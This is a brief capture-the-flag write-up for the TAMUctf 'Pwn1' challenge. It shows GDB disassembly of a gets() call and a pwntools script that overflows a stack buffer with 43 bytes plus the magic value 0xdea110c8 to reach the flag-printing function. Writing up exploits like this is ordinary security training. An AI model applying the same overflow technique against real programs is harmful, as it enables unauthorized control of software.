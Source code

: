 # Pwn1
## Points: 307
## Description: 

```
nc pwn.tamuctf.com 4321
Difficulty: easy
```

### GDB output showing target address:
```
  0x565558a6 <+301>:   lea    eax,[ebp-0x3b]
   0x565558a9 <+304>:   push   eax
   0x565558aa <+305>:   call   0x56555520 <gets@plt>
   0x565558af <+310>:   add    esp,0x10
   0x565558b2 <+313>:   cmp    DWORD PTR [ebp-0x10],0xdea110c8
   0x565558b9 <+320>:   jne    0x565558c2 <main+329>
   0x565558bb <+322>:   call   0x565556fd <print_flag>
   0x565558c0 <+327>:   jmp    0x565558d4 <main+347>
```

### Exploit code:

```
#!/usr/bin/python

from pwn import *

conn = remote('pwn.tamuctf.com', 4321)
print conn.recv()
conn.send('Sir Lancelot of Camelot\n')
print conn.recv()
conn.send('To seek the Holy Grail.\n')
print conn.recv()

buffer = "A"*43+"\xc8\x10\xa1\xde"
conn.send(buffer + "\n")
print conn.recv()

conn.close()
```

![Exploit In Action](pwn1.png)
